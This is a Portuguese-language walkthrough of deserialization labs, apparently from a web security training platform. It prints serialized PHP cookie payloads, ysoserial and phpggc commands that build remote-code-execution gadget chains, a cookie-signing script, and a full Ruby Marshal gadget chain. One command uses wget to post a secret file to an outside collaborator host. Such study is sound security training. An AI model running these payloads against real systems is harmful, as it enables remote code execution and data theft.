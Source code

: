 # Deserialização Insegura

Probabilidade: $${\color{orange}média / alta}$$.

<br>

A extensão Java Deserialization Sacanner pode ser bem útil para identificar e montar payloads quando a vulnerabilidade é em Java.

Para Java também pode gerar o exploit com o [ysoserial](https://github.com/frohoff/ysoserial) e para PHP com o [phpggc](https://github.com/ambionics/phpggc).

<br>

## Laboratórios

**Using Application Functionality to Exploit Insecure Deserialization**

Delete o usuário adicional para estudar as requisições.

Na request `POST /my-account/delete`, altere o cookie serializado para:
```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"upjgj8nlrqjsi09uqh41pflrceoig0lx";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```

<br>
<br>

**Arbitrary Object Injection in PHP**

Encontre o arquivo `/libs/CustomTemplate.php~` e perceba o método `destruct()`.

Envie o seguinte cookie:
```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

<br>
<br>

**Exploiting Java Deserialization with Apache Commons**

Utilize o scan do Burp para identificar que o objeto serializado é um Java Commons.

Use o ysoserial para gerar o payload:
```
java \
 --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED\
 --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED\
 --add-opens=java.base/sun.reflect.annotation=ALL-UNNAMED\
 -jar ./ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```

> [!NOTE]  
> Às vezes o número da CommonsCollections não funciona na aplicação alvo e você precisa testar outras versçoes. Também lembre de encodar o cookie em URL.

<br>
<br>

**Exploiting PHP Deserialization with a Pre-Built Gadget Chain**

1. Enumere o arquivo `phpinfo.php` que pode ser encontrado no código-fonte.
2. Encontre a versão do framework Symfony ao enviar um cookie inválido.
3. Salve a chave secreta encontrada no arquivo `/cgi-bin/phpinfo.php`.
4. Crie o payload com o phpgcc:
```
docker run phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64
```
5. Agora precisamos construir um cookie válido contendo o payload malicooso e assiná-lo com a chave obtida.
```php
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "n7w5ixp4wm3euh1iic9phxh1c1d1womh";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
```

<br>

Versão adaptada:
```
docker run phpggc Symfony/RCE4 exec 'wget http://OASTIFY.COM --post-file=/home/carlos/secret' | base64 -w 0
```

<br>
<br>

Exploiting Ruby Deserialization Using a Documented Gadget Chain

Use o scan do burp para identificar que o objeto serializado é Ruby utilizando Marshal.

Copie o payload [desse artigo](https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html) e substitua as duas últimas linhas para que o código gere o payload necessário.
```
require 'base64'

# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```

<br>

Você pode usar esse comando para remover espaços em brancos do payload:
```
echo -n PAYLOAD | tr -d "\r\n"
```
